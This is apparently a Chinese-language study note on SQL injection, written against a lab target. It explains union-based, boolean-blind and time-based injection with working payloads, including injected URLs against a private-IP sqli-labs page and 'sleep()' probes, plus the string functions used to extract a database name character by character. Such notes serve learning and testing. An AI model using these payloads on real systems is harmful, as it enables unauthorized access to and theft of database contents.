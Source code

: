 Gifts union select 1,2,3,4#

在使用union select database()之前，要先确定有多少列，使用group by(order by)来判断

### Boolean-Base布尔型注入

布尔盲注的前提是页面有真假值

```mysql
通过ascii()函数,length()函数来进行大小比较从而确定字母
http://192.168.88.133/sql/Less-7?id=1')) and length((select database()))>7--+
http://192.168.88.133/sql/Less-7?id=1')) and length((select database()))>8--+
第一个命令回显是true，而第二个回显false，证明数据库名字长度为8
http://192.168.88.133/sql/Less-7?id=1')) and ascii(substr((select database()),1,1))>100--+
与substr()函数配合使用，即可将字母一个一个确认
```

### Time-Based基于时间延迟注入

通过注入特定语句，根据页面请求的物理反馈，来判断是否注入成功，如：在SQL语句中使用sleep()函数来看加载页面的时间来判断注入点

**适用场景：没有回显，甚至连注入语句是否执行都无从得知**

**原理分析**
有如下语句
select * from products where category = '?';
如果用户输入
Gifts' and sleep(2)#
那么原始语句就是
select * from products where category = 'Gifts' and sleep(2)
当category='Gifts'有值的话，休眠2秒
当category='Gifts'没有值的话，直接返回

**substr()函数**==变种mid()函数，用法一样==
分割字符串
select substr('Micheal',1,1)[^从第一个字符串开始取，取一个]
select substr('Micheal',2)[^从第二个开始取，取到最后]
select substr(database(),1,1) = 's'[^取数据库名的第一个字母，并判断是否为s，如果为s，则会返回1，否则返回0]

**length()函数**
见名知意，获取长度
select length(database())[^获取数据库名长度]

select substr(database(),1,1)='a' and sleep(2)[^从a一直试，直到发现页面返回慢了，则是正确的]

**ascii()函数**==变种ord()函数，用法一样==
select ascii('Micheal')[^获取字符串的ASCII码，此语句只能获得M的ASCII码]

select ascii(substr(database(),2,1))=33 and sleep(2)[^联合使用，通过ASCII码来试]

**count()函数**
select count(database())[^计算数据库名有多少字符]

**left()函数,right()函数**

select left('Micheal',3)[^结果是Mic]
select right('Micheal',3)[^结果是eal]
